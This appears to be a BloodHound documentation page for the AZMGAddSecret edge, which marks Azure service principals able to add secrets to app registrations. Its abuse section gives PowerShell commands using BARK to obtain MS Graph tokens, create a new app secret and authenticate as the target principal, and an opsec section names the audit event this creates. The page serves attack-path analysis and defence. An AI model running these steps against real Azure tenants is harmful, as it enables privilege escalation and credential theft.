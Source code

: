 ---
title: AZMGAddSecret
description: "This edge is created during post-processing."
---

<Frame>
  <img src="/hc/images/image-2-1.png"/>
</Frame>


 It is created against all Azure App Registrations and Service Principals when a Service Principal has one of the following MS Graph app roles:

* Application.ReadWrite.All
* RoleManagement.ReadWrite.Directory

You will not see this privilege when using just the Azure portal or any other Microsoft tooling. If you audit the roles and administrators affecting any particular Azure App or Service Principal, you will not see that the Service Principal can add secrets to the object, but it indeed can because of the parallel access management system used by MS Graph.

## Abuse Info

There are several ways to perform this abuse, depending on what sort of access you have to the credentials of the object that holds this privilege against the target object. If you have an interactive web browser session for the Azure portal, it is as simple as finding the target App in the portal and adding a new secret to the object using the “Certificates & secrets” tab. Service Principals do not have this tab in the Azure portal but you can add secrets to them with the MS Graph API. No matter what kind of control you have, you will be able to perform this abuse by using BARK’s New-AppRegSecret or New-ServicePrincipalSecret functions.

These functions require you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to add secrets to the target object. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Then use BARK’s New-AppRegSecret to add a new secret to the target application:

```bash
New-AppRegSecret `
    -AppRegObjectID "d878..." `
    -Token $MGToken.access_token
```
The output will contain the plain-text secret you just created for the target app:

```bash
New-AppRegSecret `
    -AppRegObjectID "d878..." `
    -Token $MGToken.access_token

Name                Value
----                -----
AppRegSecretValue   odg8Q~...
AppRegAppId         4d31...
AppRegObjectId      d878...
```

With this plain text secret, you can now acquire tokens as the service principal associated with the app. You can easily do this with BARK’s Get-MSGraphToken function:

```bash
$SPToken = Get-MSGraphToken `
    -ClientID "4d31..." `
    -ClientSecret "odg8Q~..." `
    -TenantName "contoso.onmicrosoft.com"
```
Now you can use this JWT to perform actions against any other MS Graph endpoint as the service principal, continuing your attack path with the privileges of that service principal.

## Opsec Considerations

When you create a new secret for an App or Service Principal, Azure creates an event called “Update application - Certificates and secrets management”. This event describes who added the secret to which application or service principal.

## References
* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
